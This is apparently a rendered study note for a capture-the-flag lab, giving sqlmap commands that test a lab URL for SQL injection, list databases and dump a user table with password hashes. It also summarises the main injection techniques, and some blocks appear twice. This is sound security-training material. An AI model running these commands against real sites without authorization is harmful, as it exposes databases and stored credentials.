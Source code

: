 
### 🗄️ Dumping Table Data

sqlmap -u "http://target.thm/search?cat=1" -D users -T thomas --dump

```
sqlmap -u "http://target.thm/search?cat=1" -D users -T thomas --dump
```

Output:

Database: users
Table: thomas
+--------+----------+-------------+
| id     | name     | passhash    |
+--------+----------+-------------+
| 1      | alice    | $2y$...     |
+--------+----------+-------------+

```
Database: users
Table: thomas
+--------+----------+-------------+
| id     | name     | passhash    |
+--------+----------+-------------+
| 1      | alice    | $2y$...     |
+--------+----------+-------------+
```

- It may offer to **store hashes** or try to **crack them**.

---

## 📝 Notes on Exploitation Types

- **Boolean-based blind**: relies on true/false conditions (e.g. `1=1`).
    
- **Error-based**: forces the database to throw errors that leak data.
    
- **Time-based blind**: uses `SLEEP()` to see if page delay indicates true/false.
    
- **UNION query**: combines results from injected SELECT.
    

---

## 🔥 Quick Cheat Sheet

# Test and find injection
sqlmap -u "http://target.thm/?id=1"

# List databases
sqlmap -u "http://target.thm/?id=1" --dbs
